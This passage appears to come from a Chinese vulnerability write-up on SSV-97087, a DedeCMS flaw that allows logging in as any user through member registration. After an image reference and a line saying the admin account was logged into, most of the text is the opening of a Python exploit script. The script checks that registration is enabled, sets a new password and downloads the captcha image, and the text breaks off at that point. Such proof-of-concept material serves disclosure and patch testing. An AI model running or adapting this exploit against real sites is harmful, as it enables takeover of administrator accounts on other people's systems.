 ![](./resource/【开启会员注册】(SSV-97087)DeDecms任意用户登录/media/rId29.png)

可以看到，登陆了admin用户。

### python脚本

      # coding=utf-8

    import requests
    import re

    if __name__ == "__main__":
        dede_host = "http://127.0.0.1/"
        oldpwd = '123456'
        newpwd = "cnvdcnvd"
        s = requests.Session()

        if '系统关闭了会员功能' in requests.get(dede_host + 'member/reg_new.php').content:
            exit('The system has closed the member function .Can not attack !!!')
        else:
            print "The system opened the membership function, I wish you good luck  !!"

        headers = {"Referer": dede_host + "member/reg_new.php"}
        rs = s.get(dede_host + 'include/vdimgck.php').content
        file = open('1.jpg', "wb")
        file.write(rs)
        file.close()
